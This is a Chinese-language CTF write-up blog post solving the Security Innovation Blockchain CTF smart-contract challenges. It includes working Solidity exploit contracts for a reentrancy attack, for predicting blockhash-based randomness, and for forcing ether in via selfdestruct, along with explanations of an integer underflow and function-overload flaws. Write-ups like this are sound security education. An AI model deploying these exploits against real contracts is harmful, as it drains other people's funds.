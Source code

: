 ```yaml
---
title: "【CTF Writeups】Security Innovation Blockchain CTF"
date: 2019-06-07
categories:
- [資安, writeups]
tags:
- ctf
- security
- writeups
- blockchain
---
```


這邊是紀錄我寫 [Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/#/) 的 Writeups

## Donation

這題是簽到題
就只是讓我們呼叫合約裡面的這個函式 `withdrawDonationsFromTheSuckersWhoFellForIt`

## Lock Box

這題有個 `private` 的 `pin` 變數，但是 `private` 只是代表那個變數沒有 `getter` 函式，把合約的狀態抓下來就看光光啦
使用 [`web3.eth.getStorageAt`](https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-getstorageat) 這個函式
父合約的變數會在子合約的變數的前面
所以 position 0 的位址是 `authorizedToPlay`，而 position 1 的位址就是 `pin`
變數在 storage 裡面怎麼擺的可以參考這篇 [Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Piggy Bank

這題直接呼叫 `collectFunds` 就好了
只有 `PiggyBank` 的 `collectFunds` 有 `onlyOwner`，`CharliesPiggyBank` 的 `collectFunds` 沒有 `onlyOwner`

## SI Token Sale

這題的 `purchaseTokens` 沒有用 SafeMath，也沒有檢查 `_value` 要大於 `feeAmount`
先轉個 `0.000001` 給合約，這樣 `0.000001 - 0.00001` 就會 underflow 變成很大的數字，就得到了超多的 token
然後再用 `refundTokens` 就可以半價把 token 換成 ether 錢錢了

## Secure Bank

`SecureBank` 的 `withdraw` 和 `MembersBank` 的 `withdraw` 其中的 `_value` 參數形態不一樣
他們會被看成是不一樣的函式，所以會有兩個不一樣的型態 `withdraw` 可以呼叫
而 `MembersBank` 的 `withdraw` 沒有檢查是不是本人，所以就直接把 contract creator 的錢領走

## Lottery

這題要猜 `entropy^entropy2` 的值，猜到就可以拿走裡面的錢錢

`entropy = blockhash(block.number)`，但是我們沒辦法知道這個 block 的 blockhash，因為這個 block 還沒算完
但這樣寫不會有錯誤，只是出來的值會是 `0`
既然 `entropy = 0` 那就只剩 `entropy2`，而 `entropy2` 是根據 `msg.sender` 來的
所以我們可以直接算出 `_seed` 的值
可以直接用 [remix](https://remix.ethereum.org) 寫個簡單的 smart contract 幫我們算那個值，然後利用 `event` 來印出那個值 ( 當 print 用 )

```solidity
pragma solidity ^0.5.9;

contract test {
    event Log(bytes32 value);

    function go () public {
        emit Log(keccak256(abi.encodePacked(msg.sender)));
    }
}
```

或是直接寫一個攻擊合約，去呼叫 `play` 函式
記得要先把這個合約加到 `authorizedToPlay`，如果是 gas 不夠就調高 gas limit 吧

```solidity
pragma solidity ^0.5.9;

import "./challenge.sol";

contract hack {
    function exploit(address payable _target) public payable {
        Lottery target = Lottery(_target);

        bytes32 entropy2 = keccak256(abi.encodePacked(this));
        uint256 seeds = uint256(entropy2);

        target.play.value(msg.value)(seeds);

        msg.sender.transfer(address(this).balance);
    }
}
```

## Trust Fund

這題是經典的 reentrant attack

```solidity
pragma solidity ^0.5.9;

contract TrustFund {
    function withdraw() external {}
}

contract hack {
    address target = 0xd297ab1c9653295BdE4f6b2e32574Ac5DD994997;
    uint count = 10;

    function () external payable {
        if (count > 0) {
            count--;
            TrustFund trust = TrustFund(target);
            trust.withdraw();
        }
    }

    function exploit () public {
        TrustFund trust = TrustFund(target);
        trust.withdraw();
    }

    function withdraw () public {
        msg.sender.transfer(address(this).balance);
    }
}
```

## Heads or Tails

這題跟 Lottery 很像，不過用的是上一個 block 的 blockhash
那就寫個攻擊合約去呼叫 `play`，就可以算出一樣的 `entropy`
給 `0.1 ether` 能賺 `0.05 ether`，所以玩個 20 次就把錢全部撈出來啦
記得要寫 `fallback` 函式才能接錢進來呀 ( 我這裡卡超久der )

```solidity
pragma solidity ^0.5.9;

contract HeadsOrTails {
    function play(bool _heads) external payable {}
}

contract hack {
    address target = 0xf8583ccB9900615e0b8304A16539EBFD96c2B0af;

	function () external payable {}

    function exploit () public payable {
        bytes32 entropy = blockhash(block.number - 1);
        bool coinFlip = (entropy[0] & '\x01') == '\x01';

        HeadsOrTails heads = HeadsOrTails(target);

		for (uint i = 0; i < 20; i++) {
			heads.play.value(0.1 ether)(coinFlip);
		}

        msg.sender.transfer(address(this).balance);
    }
}
```

## Record Label

這題的題目很長，主要的邏輯就是你領錢的時候會被 `royalties` 抽成，`manager` 會抽成 80 趴的錢錢
所以如果直接呼叫 `withdrawFundsAndPayRoyalties` 就可以拿到 `0.2 ether`，`royalties` 抽走 `0.8 ether`，這題就解掉了 ( 題目合約 `balance = 0` )
不過正確的解法 ( 我全都要 ) 應該是找出 `_manager` 的地址，然後呼叫 `addRoyaltyReceiver` 把 `receiverToPercentOfProfit` 這個 mapping 中 `_manager` 的 percent 覆寫成 0
這樣去領錢就不會被抽成了

## Slot Machine

這題的題目很短，就一個 `fallback` 函式
但是第一行限制一次只能匯款 `1 szabo` ( `0.000001 ether` )
目標是要讓這個合約的 balance 大於等於 `5 ether`，他就會把所有錢錢都給你
其中一個不透過 `fallback` 給錢的方法就是用 `selfdestruct`
`selfdestruct` 就是把合約清除掉，在被清除掉之前，這個合約可以把他的錢錢匯款給一個帳戶，而這個匯款的動作不會經過 `fallback` 函式
寫一個攻擊合約，並給他 `5 ether`，讓他自我毀滅，並在毀滅之前把 `5 ether` 匯款給題目合約

```solidity
pragma solidity ^0.5.9;

contract hack {
    function exploit () public payable {
        selfdestruct(address(0x22f616f6b95e23efa8FBBAE44BeeC05890E12A4E));
    }
}
```

---

1. [https://f3real.github.io/tag/ethereum.html](https://f3real.github.io/tag/ethereum.html)
2. [https://xz.aliyun.com/t/2759](https://xz.aliyun.com/t/2759)
